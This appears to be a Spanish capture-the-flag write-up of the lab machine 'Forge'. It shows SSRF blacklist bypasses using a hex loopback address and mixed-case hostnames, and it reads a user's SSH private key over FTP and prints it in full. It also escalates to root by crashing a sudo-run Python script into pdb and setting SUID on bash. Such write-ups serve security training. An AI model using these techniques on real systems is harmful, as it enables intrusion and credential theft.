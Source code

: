 -------
- Tags: #SSRF #PDB #python3 #SUID #bypassing-ssrf #ftp #uploader
--------
## Técnicas utilizadas
- Bypassing URL Blacklist  
- Server Side Request Forgery (SSRF)  
- Abusing Sudoers Privilege (Abusing Python Script)
## Procedimiento

![[Pasted image 20230619131800.png]]

#### Reconocimiento

El escaneo con nmap nos devuelve los siguientes puertos:
```
# nmap -sCV -p22,80 10.10.11.111 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 19:03 MST
Nmap scan report for 10.10.11.111
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f78656629e4876b3cccb43ad25720ac (RSA)
|   256 79df3af1fe874a57b0fd4ed054c628d9 (ECDSA)
|_  256 b05811406d8cbdc572aa8308c551fb33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```

Si lanzamos un whatweb contra la maquina, podemos observar las tecnologías que corren por detras:

```
# whatweb forge.htb
http://forge.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.111], Title[Gallery]
```

---------------
#### Bypassing URL Blacklist  

La pagina principal tiene una funcionalidad; subir archivos. Puedes subir imágenes desde el equipo local o incluirlas con un URL.
Si intentamos apuntar al propio equipo, para acontecer un *SSRF* vemos que la URL nos la bloquea por completo.

Podemos hacer alución a la propia ip de la maquina usando *hexadecimal* para bypassear la alerta de la siguiente manera:

```
# ping -c1 0x7f000001
```

También podemos hacer uso de Mayúsculas y Minúsculas para bypassear el bloqueo:

```
# http://fOrGe.HtB
```

----------
#### Server Side Request Forgery (SSRF)  

Podemos enumerar subdominios en busca de algo interesante a la cual tramitar una solicitud para ejercer el *SSRF.* El escaneo con gubuster para subdomonios nos da el siguiente resultado:

Si apuntamos hacia el subdominio que acabamos encontrar podemos ver un apartado nuevo de la pagina principal:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

Si enumeramos también ese directorio, podemos ver unas credenciales en el texto:
![[Pasted image 20230619192553.png]]

También vemos que el directorio */upload* permite una subida de archivos con el parámetro **u?=**
e incluso se le incorporo la subida de archivos a través de **FTP**. Si intentamos ver el contenido del **FTP** podremos ver que estamos en el directorio de un usuario. Podemos intentar listar la id_rsa del usuario y la logramos ver:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```

-------
####  Abusing Sudoers Privilege (Abusing Python Script)

Dentro de la maquina, si listamos los privilegios a nivel de *sudoers* vemos que podemos ejecutar un archivo *.py* como cualquier usuario.
El archivo tiene el siguiente contenido:
```python
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
        # Espera un valor numero, si colocamos una cadena entrara el break point.    
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

Vemos que se esta utilizando **PDB** para debugear si ocurre una excepción. Bueno, para acontecer la excepción basta con introducir cualquier string y nos mandara al break.
Después de entrar al **PDB** podemos importar os y otorgar privilegio SUID a la bash.







